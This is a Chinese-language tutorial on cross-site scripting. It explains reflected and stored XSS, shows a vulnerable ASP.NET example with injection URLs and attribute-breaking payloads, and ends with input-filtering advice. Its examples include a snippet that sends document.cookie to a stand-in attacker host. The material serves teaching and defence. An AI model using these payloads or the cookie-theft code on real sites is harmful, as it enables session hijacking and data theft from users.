 
跨站脚本攻击(Cross Site Scripting)
XSS攻击是Web攻击中最常见的攻击方法之一，它是通过对网页注入可执行代码且成功地被浏览器 执行，达到攻击的目的，形成了一次有效XSS攻击，一旦攻击成功，它可以获取用户的联系人列表，然后向联系人发送虚假诈骗信息，可以删除用户的日志等等，有时候还和其他攻击方式同时实 施比如SQL注入攻击服务器和数据库、Click劫持、相对链接劫持等实施钓鱼，它带来的危害是巨 大的，是web安全的头号大敌。

# 根据XSS攻击的效果可以分为几种类型

- XSS反射型攻击，恶意代码并没有保存在目标网站，通过引诱用户点击一个链接到目标网站的恶意链接来实施攻击的。
- XSS存储型攻击，恶意代码被保存到目标网站的服务器中，这种攻击具有较强的稳定性和持久性，比较常见场景是在博客，论坛等社交网站上，但OA系统，和CRM系统上也能看到它身影，比如：某CRM系统的客户投诉功能上存在XSS存储型漏洞，黑客提交了恶意攻击代码，当系统管理员查看投诉信息时恶意代码执行，窃取了客户的资料，然而管理员毫不知情，这就是典型的XSS存储型攻击。

# 攻击的条件
实施XSS攻击需要具备两个条件：

- 需要向web页面注入恶意代码；
- 这些恶意代码能够被浏览器成功的执行。

看一下下面这个例子：
```
  <div id="el" style="width:100px;height:100px;background:url('javascript:eval(document.getElementById(" el ").getAttribute("code ")) ')" code="var a = document.createElement('a');
    a.innerHTML= '执行了恶意代码';document.body.appendChild(a);"></div>
```
这段代码在旧版的IE8和IE8以下的版本都是可以被执行的，火狐也能执行代码，但火狐对其禁止访问DOM对象，所以在火狐下执行将会看到控制里抛出异常：document is not defined （document是没有定义的）

反射型的XSS攻击
```
<div>
  <img src="/images/handler.ashx?id=<%= Request.QueryString["id"] %>" />
</div>
```
当输入地址为`http://www.xxx.com/?id=" /><script>alert(/xss/)</script><br x="`时
```
<div>
  <img src="/images/handler.ashx?id=" /><script>alert(/xss/)</script><br x="" />
</div>
```
把ValidateRequest设置为true或者保持默认值并不能解决这个问题，这种情况还可以输入下面的地址达到相同的攻击效果：
```
http://www.xxx.com/?id=xx" onerror="this.onload()" onload="alert(/xss/)" x="
```

# XSS攻击能做些什么
1.窃取cookies，读取目标网站的cookie发送到黑客的服务器上，如下面的代码：
```
var i=document.createElement("img");
document.body.appendChild(i);
i.src = "http://www.hackerserver.com/?c=" + document.cookie;
```
2.读取用户未公开的资料，如果：邮件列表或者内容、系统的客户资料，联系人列表等等

# 解决方法
- 在表单提交或者url参数传递前，对需要的参数进行过滤
- 过滤用户输入的 检查用户输入的内容中是否有非法内容。如`<>`（尖括号）、”（引号）、 ‘（单引号）、%（百分比符号）、;（分号）、()（括号）、&（& 符号）、+（加号）等。、严格控制输出




